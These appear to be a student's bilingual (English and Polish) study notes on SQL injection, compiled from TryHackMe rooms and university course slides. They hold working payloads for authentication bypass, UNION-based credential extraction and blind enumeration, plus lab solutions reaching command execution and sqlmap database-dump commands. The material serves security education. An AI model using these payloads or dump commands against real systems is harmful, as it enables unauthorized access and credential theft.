

# SQL Injection
SQL Injection occurs when user-provided data is incorporated into an SQL query without proper validation or sanitization, allowing malicious users to manipulate the database.

**Example**:  
A blog site retrieves articles from a database using an `id` parameter in the URL (e.g., `https://website.thm/blog?id=1`). The application runs an SQL query like:  
`SELECT * from blog where id=1 and private=0 LIMIT 1;`  
This retrieves a public article with ID `1`.  

**Exploitation**:  
If the `i`d parameter is used directly in the SQL query, an attacker could modify the URL to bypass restrictions. For example:  
`https://website.thm/blog?id=2;--`  
This would modify the query to:  
`SELECT * from blog where id=2;--`  
The semicolon ends the original query, and the double dashes (--) comment out the rest, allowing access to private data.
___
## In-Band SQL injection
The simplest type to detect and exploit. The same communication channel is used both to exploit the vulnerability and to receive results.  
E.g: A vulnerable website displays extracted database data on the same page where the SQL Injection occurs.

**Error-Based SQL Injection**  
Relies on error messages returned by the database to learn its structure.  
When attempting invalid inputs (e.g., a single quote `'`), the error message reveals information like table or column names.  
This method is often used to enumerate database structures.

**Union-Based SQL Injection**  
Uses the UNION operator to combine the results of two or more queries, extracting additional data and displaying it on the same page.  
 Altering the query to return extra results alongside the original query, effectively dumping data.  

**Step-by-Step Process for a Union-Based SQL Injection Example:**  
1. Discovering SQL Injection Vulnerability:  
- Input invalid characters like `'` or `"` in the id parameter (e.g., `id=1'`).  
- Observe the returned error message confirming the vulnerability.  

2. Finding the Correct Number of Columns:  
- Use `UNION SELECT` queries to determine the number of columns in the original query  
- Example: `1 UNION SELECT 1` → Error (mismatch in columns).
- Add columns until the error disappears:
`1 UNION SELECT 1,2,3` → Success (3 columns in this case).

3. Replacing Original Data with Custom Data:  
- Set the first query to return no results (e.g., `id=0`) and inject custom data:  
Example: `0 UNION SELECT 1,2,3`.

4. Retrieving Database Information:  
- Get database name (sqli_one):  
`0 UNION SELECT 1,2,database()`.
- Retrieve table names:  
`0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema='sqli_one'`.
Example result: `article,staff_users`.

5. Exploring Table Structure:  
- Retrieve column names for the staff_users table:  
`0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name='staff_users'`.  
Example result: `id,username,password`.

6. Extracting Sensitive Data:  
- Retrieve usernames and passwords:  
`0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users`.  
Example result: `admin:admin123<br>martin:password456`.

7. Accessing the Target Account:  
- Use the extracted credentials (e.g., Martin's username and password) to log in or progress further.
___
## Inferential (Blind) SQL injection - Authentication Bypass
Blind SQL Injection occurs when error messages and query results are suppressed, giving little or no visible feedback. However, the injection still works, and subtle indications (like changes in page behavior) can be used to infer database information.  

**Authentication Bypass**:  
- Objective: Bypass login forms without needing to know valid usernames or passwords.  
- How It Works: Login forms check whether a username-password pair exists in the database and respond with "true" or "false." By crafting a query that always evaluates to "true," attackers can bypass authentication.  
- Example Query:
Inputting `' OR 1=1;--` into the password field modifies the SQL query as follows:  
`SELECT * FROM users WHERE username='' AND password='' OR 1=1;`  
The condition `1=1` always evaluates to true. Using the `OR` operator forces the query to succeed, granting access.

**Example**:  
- Original query:  
`SELECT * FROM users WHERE username='%username%' AND password='%password%' LIMIT 1;`  
- Exploited query (password input: `' OR 1=1;--`) 
`SELECT * FROM users WHERE username='' AND password='' OR 1=1;`  
- Result: The database returns "true," bypassing the login check.
___
## Inferential (Blind) SQL injection - Boolean Based
Boolean-based SQL Injection relies on receiving true/false responses (e.g., yes/no, 1/0) to confirm whether injected queries are successful. Despite the limited feedback, attackers can fully enumerate a database structure and its contents.  

**Example**  
1. Initial Setup:  
- Example URL: `https://website.thm/checkuser?username=admin`
- Observing responses like `{"taken": true}` or `{"taken": false}` helps infer the presence of a Boolean-based vulnerability.  

2. Column Count Discovery:  
- Use the `UNION` operator to discover the number of columns in the database by iterating through payloads like:  
```
admin123' UNION SELECT 1;--  
admin123' UNION SELECT 1,2;--  
admin123' UNION SELECT 1,2,3;--  
```
- When the "taken" response changes to true, the correct column count is confirmed (in this case, 3).  

3. Enumerating the Database Name:
- Use the `database()` method with the `LIKE` operator to deduce the database name character by character:  
`admin123' UNION SELECT 1,2,3 WHERE database() LIKE 's%';--`  
- Repeat the process with patterns (sa%, sb%, etc.) to fully identify the database name (e.g., sqli_three).  

4. Finding Table Names:  
- Query the `information_schema.tables` to enumerate tables in the database:  
```
admin123' UNION SELECT 1,2,3 FROM information_schema.tables  
WHERE table_schema = 'sqli_three' AND table_name LIKE 'u%';--  
```
- Cycle through patterns to identify table names (e.g., `users`).

5. Identifying Column Names:  
- Query the `information_schema.columns` to enumerate column names in the `users` table:
```
admin123' UNION SELECT 1,2,3 FROM information_schema.columns  
WHERE table_schema = 'sqli_three' AND table_name = 'users'  
AND column_name LIKE 'u%';--  
```
- Repeat until all column names (e.g., `id`, `username`, `password`) are discovered.  

6. Extracting Data:
- Once table and column structures are known, use the discovered columns to query specific data:  
Find a valid username:  
`admin123' UNION SELECT 1,2,3 FROM users WHERE username LIKE 'a%';--`  
Discover the password for `admin`:  
`admin123' UNION SELECT 1,2,3 FROM users WHERE username='admin' AND password LIKE 'a%';--`  
- Continue iterating character by character to retrieve the full password (e.g., `3845`).

7. Bypassing Login:  
- Use the discovered credentials (admin and 3845) on the login form to gain access.
___
## Inferential (Blind) SQL injection - Time Based
Time-based blind SQL injection is a technique where the success of an injection query is determined by observing time delays in the application's response. These delays are intentionally introduced using functions like `SLEEP(x)` in SQL, allowing attackers to infer correct results without visible feedback.

**Example**  
1. Establishing Columns:  
- Similar to Boolean-based SQL injection, but success is identified by a time delay:  
```
admin123' UNION SELECT SLEEP(5);--  
admin123' UNION SELECT SLEEP(5),2;--  
```
- A 5-second delay indicates a successful query, confirming the correct number of columns.  

2. Enumeration:  
- The same process as Boolean-based SQL injection is used for enumerating database names, tables, and columns, but with the `SLEEP(x)` method to validate queries:  
Example: Finding the database name:  
`admin123' UNION SELECT SLEEP(5),2 WHERE database() LIKE 'u%';--`  
- A delay confirms the query was successful, and the database name begins with "u."

3. Iterative Process:  
- Use the `SLEEP(x)` function alongside `LIKE`, cycling through possible characters (e.g., `u%`, `us%`, `usr%`) to infer database names, tables, and columns step-by-step.
___
## Out-of-Band SQL injection
Out-of-band (OOB) SQL Injection relies on using two separate communication channels: one to send the injection payload and another to receive the results. It requires specific server features or application logic to facilitate external network calls (e.g., HTTP or DNS requests).  

**Process**:  
1. Injection Payload:  
The attacker sends a crafted SQL injection payload via a vulnerable web request.  
2. Server Processing:  
The web application forwards the payload to the database, executing it as part of a query.  
3. External Call:  
The payload triggers an HTTP or DNS request from the server back to the attacker’s controlled system, carrying extracted database data.
___
## Ćwiczenia studia
### SQL Injection 1
Pierwsze zadanie to podstawowy SQL Injection, polegający na wstrzyknięciu znaku specjalnego `'`, który zakończy string i umożliwi wstrzyknięcie dodatkowej logiki.   
Przykładowe rozwiązania:  
```
' or '1'='1
' or 1-- x
' or 1#
```

### SQL Injection 2
Drugie zadanie polega na dodatkowym domknięciu nawiasu `)`. Należy wstrzyknąć znaki specjalne `')`, które zakończą string i umożliwią wstrzyknięcie dodatkowej logiki.   
Przykładowe rozwiązania:  
```
') or (username='admin
') or username='admin'-- x
') or username='admin'#
```

### SQL Injection 3
Trzecie zadanie jest identyczne jak poprzednie, z wyjątkiem tego, że baza danych jest pusta. Wymaga to zastosowania techniki `UNION SELECT`, która zwróci z zapytania dane, oryginalnie nieistniejące w bazie danych.  
Przykładowe rozwiązania:  
```
') union select ('admin
') union select 'admin'-- x
') union select 'admin'#

```

### SQL Injection 4
Czwarte zadanie, podobnie jak poprzednie, wymaga zastosowania techniki `UNION
SELECT`, która zwróci z zapytania NOWEGO (nieistniejącego w bazie) użytkownika admin z kontrolowanym przez nas skrótem md5 jego hasła. Kod php po znalezieniu istniejącego użytkownika w bazie, liczy skrót md5 z wpisanego w formularzu hasła i porównuje z tym zwróconym z bazy– oba muszą być identyczne, ale też oba kontrolujemy!  
Przykładowe rozwiązanie:  
```
Użytkownik:
" union select "admin",md5("x")#
Hasło: x
```

### SQL Injection 5
Piąte zadanie dodaje przed znakami specjalnymi (tj. `'`, `"`, `\`) ukośnik `\`, przez co stają się zwykłymi znakami wewnątrz stringa, następnie ucina cały string do 10 znaków.  
Aby rozwiązać zadanie, należy w nazwie użytkownika na 10-tej pozycji podać znak `\` (zostanie zamieniony na `\\`) i wykorzystać fakt, że nazwa użytkownika jest ucinana do 10 znaków (bezpieczny ciąg `\\` zostanie z powrotem przycięty do niebezpiecznego `\` i wyescapuje następny znak– `'` zamykający string!).  
Przykładowe rozwiązanie:  
```
Użytkownik: 123456789\
Hasło: or 1-- x
```

## Ćwiczenia studia Pentest
### Logowanie
Wejdź na stronę: http://192.168.100.60/  
Wykonaj atak SQL Injection w panelu logowania.
Przykładowa nazwa użytkownika (hasło dowolne):  
`' or 1=1-- x`

### Zawartość bazy danych
Do wyświetlenia całej zawartości bazy danych można użyć narzędzia sqlmap.  
Na wszystkie pytania należy odpowiadać wartością domyślną (enter).

`sqlmap -u http://192.168.100.60 --forms --dbs #wyświetli nazwy baz danych`
`sqlmap -u http://192.168.100.60 --forms -D pentest-dump-all #wyświetli zawartość bazy`

### RCE
Baza danych przechowuje komendy bash, które serwer może wykonać.  
Po zalogowaniu, wykonaj atak `UNION SELECT`, w celu zwrócenia z zapytania komendy `"id"` (która nie istnieje w bazie w jako rekord).  
Przykład (należy zgadnąć liczbę kolumn np. za pomocą prób i błędów):  
```
123-- x
123 union select 'id'-- błąd
123 union select 'id','id'-- błąd
123 union select 'id','id','id'-- działa
```

### Flaga
Za pomocą podatności typu RCE, wylistuj pliki w aktualnym katalogu i odczytaj flagę.
Zamiast `id` wykorzystaj `ls` i `cat nazwaplikuzflagą.txt`:  
`192.168.100.60/?id=123 union select 'ls','ls','ls'--`
___
## SQLmap
### GET
SQLMap is an automated tool for detecting and exploiting SQL injection vulnerabilities in web applications.  
To use SQLMap, you open a terminal in Linux and run commands with different flags. The `--wizard` flag provides an interactive guide, making it beginner-friendly.  
```bash
sqlmap --wizard
```
`--dbs` extracts all the databases names  
`-D database_name --tables` extracts information about the tables  
`-D database_name -T table_name --dump` to enumerate records in those tables  

To find a vulnerable URL, look for web applications using GET parameters, such as `http://sqlmaptesting.thm/search?cat=1`. These parameters retrieve data and may be exploitable. Use SQLMap with the `-u` flag to test for SQL injection, a method known as HTTP GET-based testing.  
`sqlmap -u http://sqlmaptesting.thm/search/cat=1`  
To fetch the databases:  
`sqlmap -u http://sqlmaptesting.thm/search/cat=1 --dbs` result users  
To fetch users tables:  
`sqlmap -u http://sqlmaptesting.thm/search/cat=1 -D users --tables`  result thomas  
To fetch record present in thomas table:  
` sqlmap -u http://sqlmaptesting.thmsearch/cat=1 -D users -T thomas --dump`  

Another example:  
`sqlmap -u http://10.10.163.106/ai/includes/'user_login?email=test&password=test' --level=5`

### POST
Unlike GET-based testing, POST-based testing targets data sent in the request body, such as login or registration forms. To test for vulnerabilities, intercept the POST request, save it as a text file, and use SQLMap with:  
`sqlmap -r intercepted_request.txt`
OR you can use burp suite:  



blood_group parameter could be vulnerable. Test it with:  
```
sqlmap -r <request_file> -p <vulnerable_parameter> --dbs
sqlmap -r req.txt -p blood_group --dbs --> result database blood
```  
`-r` to read the file  
`-p` to supply vulnerable parameter  
To extract tables from blood database:  
**GET based method:**  
```
sqlmap -u https://testsite.com/page.php?id=7 -D blood --tables
sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> --tables
```

**POST based method:**  
```
sqlmap -r req.txt -p blood_group -D blood --tables
sqlmap -r req.txt -p <vulnerable_parameter> -D <database_name> --tables
```

To extract tables from blood database:  
**GET based method:**  
```
sqlmap -u https://testsite.com/page.php?id=7 -D blood -T blood_db --columns
sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> -T <table_name> --columns
```

**POST based method:**  
```
sqlmap -r req.txt -D blood -T blood_db --columns
sqlmap -r req.txt -D <database_name> -T <table_name> --columns
```

To dump all the available databases and tables:  
**GET based method:**  
```
sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> --dump-all
sqlmap -u https://testsite.com/page.php?id=7 -D blood --dump-all
```

**POST based method:**  
```
sqlmap -r req.txt -D <database_name> --dump-all
sqlmap -r req.txt-p -D <database_name> --dump-all
```

To add data to a POST request:  
`sqlmap -u "http://example.com/login" --data "username=admin&password=1234"`
___
## Dodatkowe informacje
[Sprawdzenie rodzaju bazy danych](https://portswigger.net/web-security/sql-injection/examining-the-database)  
[ Opis różnych ataków typu SQL Injection](https://www.w3schools.com/sql/sql_injection.asp)  
[ „cheat sheet” dla ataków SQL Injection](https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/)  
[Projekt sqlmap](https://github.com/sqlmapproject/sqlmap/wiki/usage)  
___
## Sources
- tryhackme, SQL Injection, https://tryhackme.com/r/room/sqlinjectionlm.
- Podatności SQL Injection, Polsko-Japońska Akademia Technik Komputerowych, 2024. Prezentacja pdf.
- Podatności SQL Injection Pentest, Polsko-Japońska Akademia Technik Komputerowych, 2024. Prezentacja pdf.
- tryhackme, SQLMap: The Basics, https://tryhackme.com/r/room/sqlmapthebasics.
- tryhackme, SQLMAP, https://tryhackme.com/r/room/sqlmap.